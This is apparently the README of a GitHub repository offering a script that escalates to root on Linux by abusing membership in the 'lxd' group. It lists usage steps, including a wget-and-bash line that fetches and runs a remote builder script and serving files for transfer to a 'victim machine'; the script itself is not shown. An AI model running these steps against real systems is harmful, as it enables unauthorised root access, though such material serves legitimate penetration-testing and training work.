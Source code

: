 # lxd-group-privilege-escalation
Script to elevate your privilege if you are in the group 'lxd'.

## How to execute
1 -> Clone this repository with: ```git clone https://github.com/David132435/lxd-group-privilege-escalation```  
2 -> Navigate to the folder: ```cd lxd-group-privilege-escalation```  
3 -> Give the script execute permission: ```chmod +x lxdprivesc.sh```  
4 -> Execute the script and see help: ```./lxdprivesc.sh```

![image](https://github.com/David132435/lxd-group-privilege-escalation/assets/106914229/195d49bb-a0b2-4cb4-9216-186d0f16e5cd)

5 -> Check how to build alpine image: ```./lxdprivesc.sh --howto```

![image](https://github.com/David132435/lxd-group-privilege-escalation/assets/106914229/5c8f46eb-31c1-4b56-8c93-476f5b58ec0f)

6 -> Follow the steps and execute on your local machine: ```wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine && bash build-alpine```  
7 -> Transfer the script and the alpine image to the victim machine (you can start a http server with ```python3 -m http.server 80```)

![image](https://github.com/David132435/lxd-group-privilege-escalation/assets/106914229/56a68c4f-d412-4650-81b0-ecc929ced863)

8 -> Give the script execution permission with ```chmod +x lxdprivesc.sh```

![image](https://github.com/David132435/lxd-group-privilege-escalation/assets/106914229/45a00e9f-d4e7-412a-9e8c-a2c5c2167f75)

9 -> Execute the script with ```./lxdprivesc.sh -f alpine.tar.gz```

![image](https://github.com/David132435/lxd-group-privilege-escalation/assets/106914229/4608bbe2-0f9b-4d1e-841d-83e2562245ad)

10 -> Enjoy! 😊
-----------------------------
(Tested on Ubuntu 22.04)
